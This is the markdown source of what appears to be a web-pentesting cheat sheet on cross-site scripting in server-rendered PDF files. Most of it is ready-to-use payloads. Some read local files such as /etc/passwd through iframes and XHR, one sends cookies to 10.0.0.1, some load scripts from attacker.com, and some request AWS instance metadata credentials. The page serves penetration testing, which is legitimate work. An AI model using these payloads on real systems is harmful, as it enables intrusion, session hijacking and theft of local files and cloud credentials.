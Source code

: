 ```yaml
---
title: XSS with Dynamic PDF
description: If the PDF file, which is created somewhere in the website, that is reflected our payloads, we can insert malicious code.
tags:
    - XSS
    - Web
refs:
    - https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf
date: 2023-04-01
draft: false
---
```


## Basic

<div data-pagefind-ignore>

```txt
<img src='x' onerror="document.write('test')">
<script>document.write('test')</script>

"><h1>XSS</h1>
```

</div>

<br />

## Path Disclosure

<div data-pagefind-ignore>

```txt
<img src='x' onerror="document.write(JSON.stringify(window.location))">
<script>document.write('<iframe src=\"' + window.location.href + '\"></iframe>')</script>
```

</div>

<br />

## LFI/RFI

<div data-pagefind-ignore>

```txt
<iframe src="file:///etc/passwd"></iframe>
<iframe src=file:///etc/passwd width=1000px height=1000px></iframe>
<iframe src=file:///var/www/html/index.php width=1000px height=1000px></iframe>
<iframe src="http://localhost:3000/index.html"></iframe>
<iframe src="http://localhost/server-status" height="1000" width="1000"></iframe>

<img src='x' onerror="document.write('<iframe src=file:///etc/passwd></iframe>')">
```

</div>

<br />

## LFI/RFI (XHR request)

<div data-pagefind-ignore>

```js
<script>
	x = new XMLHttpRequest();
	x.onload = function() {
		document.write(this.responseText)
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>
```

</div>

<br />

## Cookie Hijacking

<div data-pagefind-ignore>

```txt
<img src=x onerror="location.href='http://10.0.0.1/?cookie='+ document.cookie">
```

</div>

<br />

## External Scripts

<div data-pagefind-ignore>

```txt
<script src="http://attacker.com/test.js"></script>

<img src='x' onerror="document.write('<script src=\"http://10.0.0.1/test.js\"></script>')" />
```

</div>

<br />

## AWS Instances

<div data-pagefind-ignore>

```bash
<iframe src="http://169.254.169.254/latest/dynamic/instance-identity/" height=1000px width=1000px></iframe>
<iframe src="http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance" height=1000px width=1000px></iframe>
```

</div>

## wkhtmltopdf

If the website uses “wkhtmltopdf”, please also refer to [this page](/exploit/web/security-risk/wkhtmltopdf-ssrf).
